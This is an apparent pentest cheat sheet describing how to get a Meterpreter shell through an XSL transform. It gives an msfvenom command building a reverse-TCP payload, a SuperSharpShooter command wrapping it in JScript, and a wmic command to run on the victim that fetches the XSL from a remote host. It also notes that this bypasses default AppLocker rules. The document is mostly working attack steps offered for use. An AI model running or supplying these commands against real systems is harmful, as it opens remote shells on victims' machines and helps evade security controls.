 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

> ![CAUTION] 
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
